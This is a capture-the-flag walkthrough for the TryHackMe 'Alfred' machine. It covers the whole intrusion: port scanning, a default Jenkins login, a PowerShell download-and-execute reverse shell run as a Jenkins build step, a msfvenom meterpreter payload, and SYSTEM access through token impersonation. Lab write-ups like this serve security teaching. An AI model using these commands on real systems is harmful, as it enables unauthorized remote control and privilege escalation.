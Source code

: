 # Alfred

At first, we need to run the nmap to scan the running services on target server:

```bash
sudo nmap -sS 10.10.135.85
```

Above command gave the error: **Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn.**  Let's modify the command:

```bash
sudo nmap -sS -Pn 10.10.135.85
```

It gave us the result:
```bash
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

Now, went to http://10.10.135.85:8080/ that gave me a page that requires username and password for Jenkin authentication.

### **Task 1**

##### Question: How many ports are open? (TCP only)
Answer: We already know it's answer is: **3**.

##### Question: What is the username and password for the login panel? (in the format username:password)
Answer: I randomly tried to guess the credentials and guess what, I succeed. 

The credentials are: **admin:admin**.

Now, we need to find a way to run commands on the underlying system (target server). I made a google search that how to run our command on the system using jenkin. I found out that if I make a new project then it's possible. Simple steps to do that are following:

1. Select the new item from the dashboard as shown in the picture:

![Alt text](../Screenshots/Alfred/new_item.png)

2. Enter the name of project and select 1st option as following:

![Alt text](../Screenshots/Alfred/new_project.png)

3. Now, in the portion of buid select `Add build` and then from the drop down list select `execute windows batch command`. Now, write the following command in the command box(given  by tryhackme):

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.25.176:4444/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.25.176 -Port 4443
```

4. Click the save button at the last of the page. 

Before going to the 5th step, you must have two things configured at your attacking machine:
> Download powershell script and host it through python server
> start netcat server on listenting mode.

**Powershell Script**
Download the script using the following link(given by THM): 
[Reverse Shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Run the python server in the same directory where the powershell script is downloaded using the command:
```bash
python -m http.server 4444
```

**Running netcat server**
Run the following command to run the netcat server:

```bash
nc -lvnp 4443
```

5. Now, go to the project `new_project` that we made on jenkin and on the left panel, click on `Build Now` as shown in the following:
![Alt text](../Screenshots/Alfred/build_now.png)

##### Hoorah! We got the initial access of shell of target server.


![Alt text](../Screenshots/Alfred/Initial_access.png)

Navigate to the directory `C:\users\bruce\Desktop` and run following command to get the user flag:

```cmd
type user.txt
```

![Alt text](../Screenshots/Alfred/user_flag.png)

### **Task 2**

**Setting Metasploit on listening mode**
Run the following commands in order to set the metasploit on listening mode to get the meterpreter shell, so that we can leverage the modules of windows authentication tokens.

```bash
use exploit/multi/handler 
```

```bash
set PAYLOAD windows/meterpreter/reverse_tcp 
```

```bash
set LHOST attacker_machine_ip set LPORT attacker_machine_port
```

```bash
run
```

Now, Metasploit is on listening mode. We need to make a reverse shell payload, transfer it to target machine. When this expoits run, it will make reverse a connection on your Metasploit.

Firstly create the payload using following command:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=attacker_ip LPORT=attacker_port -f exe -o shell-name.exe
```

Now, run the python server where this payload is created:
```bash
python -m http.server 4444
```

Now, run the following command in the shell of target machine that you got during initial access task:
```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://attacker_ip:python_server_port/shell-name.exe','shell-name.exe')"
```

Run the following command in target machine's shell to start the payload:
```cmd
Start-Process "shell-name.exe"
```
![Alt text](../Screenshots/Alfred/meterpreter.png)
##### Yeah! We got the meterpreter shell.

**Task 3**

Privelege Escalation is our current task. So we need to identify the priveleges that our current user have. Run the following command in our shell(initial shell, not meterpreter):

```cmd
whoami /priv
```

Note the Enabled privleges that includes the following:
**SeDebugPrivilege**
**SeChangeNotifyPrivilege**
**SeImpersonatePrivilege**
**SeCreateGlobalPrivilege**

Now, in order to use the Metasploit module for windows authentication tokens, we need to load a module:
```bash
load incognito
```

```bash
list_tokens -g
```

![Alt text](../Screenshots/Alfred/tokens.png)

Now, the most attactive token for attackers here is `BUILTIN\Administrators`. Understand what's happening. You are local user but you can impersonate tokens of another user, how do we know that: because we have the privelege **SeImpersonatePrivilege**. Run the following command to impersonate it:
```bash
impersonate_token "BUILTIN\Administrators"
```
##### Question: Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators' token. What is the output when you run the getuid command?

Answer: Run the getuid command in meterpreter and you will get the answer: **NT AUTHORITY\SYSTEM**.

Now, you are local user but have token of administrator. In other words, you can authenticate yourself as administrator. But currently your primary token is of local user. In order to do the tasks that require higher priveleges then we need to migrate the process that have higher permissions. And token for authentication we already have. 

Migrate to any process that is running with higher priveleges. Run `ps` command to list the processes. Note that service.exe is one of our required processes. Run the command in meterpreter shell:

```bash
migrate 668
```
In above command 668 is the PID of service.exe that we can find throug `ps` command we ran previously.

Now navigate to the directory `C:\Windows\System32\config` and read the `root.txt` file using following command:
```bash
cat root.txt
```
![Alt text](../Screenshots/Alfred/root_flag.png)